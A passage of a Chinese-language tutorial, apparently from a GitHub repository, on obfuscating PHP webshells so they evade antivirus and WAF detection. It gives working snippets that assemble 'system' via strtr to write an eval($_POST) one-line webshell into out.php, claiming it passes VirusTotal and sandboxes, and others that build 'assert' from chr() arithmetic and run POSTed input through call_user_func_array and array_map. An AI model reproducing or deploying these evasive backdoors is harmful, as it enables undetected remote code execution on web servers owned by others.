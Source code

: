 ## 3# 生成新文件绕过

这是我之前写的一个免杀，其实原理也很简单，该 PHP 本身没法执行命令，但是运行后可以在同目录混淆写入一个 WebShell，也是可以进行免杀的：

```bash
$hahaha = strtr("abatme","me","em");      //$hahaha = abatem
$wahaha = strtr($hahaha,"ab","sy");       //$wahaha = system（高危函数）
$gogogo = strtr('echo "<?php evqrw$_yKST[AABYSS])?>" > ./out.php',"qrwxyK","al(_PO");
//$gogogo = 'echo "<?php eval(_POST[AABYSS])?>" > ./out.php'
$wahaha($gogogo);  //将一句话木马内容写入同目录下的 out.php 中
```

现在看这个是不是很简单，但是这个可是 VirusTotal 全绿、微步沙箱和百度沙箱都过的哦~

没想到吧~ 其实在这个简单的基础上还可以拓展出来进行高阶免杀操作

## 4# 回调函数绕过

通过回调函数，来执行对应的命令，这里举两个例子：

### 4.1 call\_user\_func\_array()

```bash
//ASCII 编码解密后为 assert 高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
call_user_func_array($f, array($_POST['aabyss']));
```

### 4.2 array\_map()

```bash
function fun() {
    //ASCII 编码解密后为 assert 高危函数
    $f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
    return ''.$f;
}
$user = fun();    //拿到 assert 高危函数
$pass =array($_POST['aabyss']);
array_map($user,$user = $pass );
```

回调函数的免杀早早就被 WAF 盯上了，像这样单独使用一般都没办法免杀，所以一般都是配合其他手法使用

## 5# 可变变量绕过

### 5.1 简单可变变量

什么叫可变变量呢？看一下具体例子就明白了：

```bash
$f = 'hello';    //变量名为 f，变量值为 Hello
$$f = 'AabyssZG';  //变量名为 Hello（也就是$f的值），值为 AabyssZG
echo $hello;     //输出 AabyssZG
```
